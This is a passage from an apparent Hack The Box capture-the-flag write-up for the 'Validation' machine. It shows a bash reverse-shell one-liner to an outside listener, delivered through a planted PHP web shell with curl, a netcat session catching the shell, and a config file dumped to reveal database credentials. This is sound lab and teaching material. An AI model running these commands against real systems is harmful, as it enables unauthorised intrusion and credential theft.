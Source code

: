 ## Reverse Shell

Let's get a reverse shell to the box now. Using a simple pentestmonkey bash one from [here](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

```text
bash -c 'bash -i >& /dev/tcp/10.10.14.120/4444 0>&1'
```

Again we need to URL encode and also make sure we have a waiting netcat session in another window:

```text
┌──(root💀kali)-[~/htb/validation]
└─# curl http://10.10.11.116/pencer_shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.120%2F4444%200%3E%261%22
```

Now if we switch to our waiting nc session we see we are connected:

```text
┌──(root💀kali)-[~/htb/validation]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.120] from (UNKNOWN) [10.10.11.116] 59690
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$
```

## Root Flag

The path to root was pretty simple from here. Look what's in our current folder:

```text
www-data@validation:/var/www/html$ ls -l
ls -l
total 40
-rw-r--r-- 1 www-data www-data  1550 Sep  2 18:06 account.php
-rw-r--r-- 1 www-data www-data   191 Sep  2 18:06 config.php
drwxr-xr-x 1 www-data www-data  4096 Sep  2 18:06 css
-rw-r--r-- 1 www-data www-data 16833 Sep 16 13:20 index.php
drwxr-xr-x 1 www-data www-data  4096 Sep 16 13:40 js
```

The config file has the database connection settings:

```text
www-data@validation:/var/www/html$ cat config.php
cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "<HIDDEN>-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```
